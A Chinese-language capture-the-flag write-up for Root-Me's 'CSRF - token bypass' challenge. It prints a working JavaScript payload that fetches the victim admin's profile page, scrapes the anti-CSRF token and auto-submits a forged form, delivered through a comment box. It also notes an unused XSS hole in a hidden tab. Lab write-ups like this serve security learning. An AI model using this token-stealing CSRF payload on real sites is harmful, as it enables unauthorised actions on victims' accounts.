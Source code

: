 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - token bypass](https://www.root-me.org/en/Challenges/Web-Client/HTML-disabled-buttons)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2933/)]

------

这题与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】是一样的，只是多了一个 token 校验。

切到 Profile 选项卡，打开浏览器开发者工具，切到 Elements ，可以看到激活表单多了一个实时刷新的 `token`，而且在本地找不到关于这个 `token` 的生成代码，因此可以推断这个 `token` 是与登录账号绑定、且由 web 服务器生成的。

![](http://exp-blog.com/wp-content/uploads/2019/01/0ccd76e90df4766845293dfbcd463196.png)

于是我们的目的就是需要在原本利用 robot-admin 的 Cookie 的基础上，再同时利用其 `token` 。

由此构造 payloads 如下（此 payloads 与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】大致相同，只是多了一个步骤，就是让 robot-admin 先访问 Profile 选项卡获取其 `token`，加到 form 表单后再提交）：

```javascript
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp" />  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on" />  <!-- 激活动作 -->
    <input id="admin-token" type="hidden" name="token" value="" />  <!-- 网站用于防止 CSRF 的 token，需绕过 -->
</form>
<script>

	// 使用 robot-admin 的身份获取 robot-admin 的 token，用于绕过 CSRF 校验
	var request = new XMLHttpRequest();
	request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
	request.send(null);	
	var respone = request.responseText;
	var groups = respone.match("token\" value=\"(.*?)\"");
	var token = groups[1];
	
	document.getElementById("admin-token").value = token;	// 置换 robot-admin 的 token
	document.csrf.submit();
</script>
```

将 payloads 其拷贝到 Contact 选项卡的 Comment 输入框提交。

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/01/29dc07d802cc95b3f21efc60cc99d41a.png)

> 注：查看页面源码发现有一个隐藏的选项卡 Search 被注释了 `<!--| <a href="?action=search">Search</a> -->`，打开该选项卡，里面有一个 XSS 漏洞，但是暂时没发现这个漏洞对于本题有什么用（可能只是用来方便我们调试，但应该没那么好心，应该是用来误导的）。

![](http://exp-blog.com/wp-content/uploads/2019/01/3fd41fa348e9beba41cce2342fa4ebee.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

